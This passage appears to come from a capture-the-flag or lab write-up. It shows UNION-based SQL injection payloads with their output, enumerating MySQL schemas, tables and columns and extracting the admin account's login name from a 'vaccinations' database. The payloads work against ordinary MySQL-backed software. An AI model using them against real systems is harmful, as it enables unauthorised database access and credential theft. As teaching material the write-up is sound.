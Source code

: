 ```py
# disable SSL error message
requests.packages.urllib3.disable_warnings()
term = Terminal()
term.cmdloop()

```

Taking advantage of the <a href="https://dev.mysql.com/doc/refman/8.0/en/information-schema.html" target="_blank">INFORMATION_SCHEMA</a> tables, we can query SCHEMA_NAMES from the SCHEMATA table (see <a href="https://dev.mysql.com/doc/refman/8.0/en/tables-table.html" target="_blank">https://dev.mysql.com/doc/refman/8.0/en/tables-table.html</a>). Once we derive the TABLE_SCHEMAs, we can query the TABLE_NAMEs from each TABLE_SCHEMA. The TABLE_SCHEMAs that give us results are MedStaff, phplist, and vaccinations.

```bash
prompt: union select 1,2,GROUP_CONCAT(SCHEMA_NAME),4,5 from INFORMATION_SCHEMA.SCHEMATA
MedStaff,information_schema,mysql,openmrs,performance_schema,phplist,vaccinations

prompt: union select 1,2,GROUP_CONCAT(TABLE_NAME),4,5 from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='MedStaff'
current_dept_emp,departments,dept_emp,dept_emp_latest_date,dept_manager,employees,salaries,titles

prompt: union select 1,2,GROUP_CONCAT(TABLE_NAME),4,5 from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='phplist'
admin,admin_attribute,admin_password_request,adminattribute,admintoken,attachment,attribute,bounce,bounceregex,bounceregex_bounce,config,eventlog,i18n,linktrack,linktrack_forward,linktrack_ml,linktrack_uml_click,linktrack_userclick,list,listmessage,listuser,message,message_attachment,messagedata,sendprocess,subscribepage,subscribepage_data,template,templateimage,urlcache,user,user_attribute,user_blacklist,user_blacklist_data,user_history,user_message_bounce,user_message_forward,user_message_view,usermessage,userstats

prompt: union select 1,2,GROUP_CONCAT(TABLE_NAME),4,5 from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='vaccinations'
admin,admin_attribute,admin_password_request,adminattribute,admintoken,attachment,attribute,bounce,bounceregex,bounceregex_bounce,config,eventlog,i18n,linktrack,linktrack_forward,linktrack_ml,linktrack_uml_click,linktrack_userclick,list,listmessage,listuser,message,message_attachment,messagedata,sendprocess,subscribepage,subscribepage_data,template,templateimage,urlcache,user,user_attribute,user_blacklist,user_blacklist_data,user_history,user_message_bounce,user_message_forward,user_message_view,usermessage,userstats
```

From here, we want the columns (see <a href="https://dev.mysql.com/doc/refman/8.0/en/columns-table.html" target="_blank">https://dev.mysql.com/doc/refman/8.0/en/columns-table.html</a>) from interesting TABLE_NAMEs under TABLE_SCHEMAs. Once we get the columns, we can query individual values from each column.

```
prompt: union select 1,2,GROUP_CONCAT(COLUMN_NAME),4,5 from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA='vaccinations' and TABLE_NAME='admin'
id,loginname,namelc,email,access,created,modified,modifiedby,password,passwordchanged,superuser,disabled,privileges

prompt: union select 1,2,GROUP_CONCAT(COLUMN_NAME),4,5 from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA='vaccinations' and TABLE_NAME='admin'
id,loginname,namelc,email,access,created,modified,modifiedby,password,passwordchanged,superuser,disabled,privileges

prompt: union select 1,2,GROUP_CONCAT(id),4,5 from vaccinations.admin
1

prompt: union select 1,2,GROUP_CONCAT(loginname),4,5 from vaccinations.admin
sysadm

prompt: union select 1,2,GROUP_CONCAT(namelc),4,5 from vaccinations.admin
administrator
```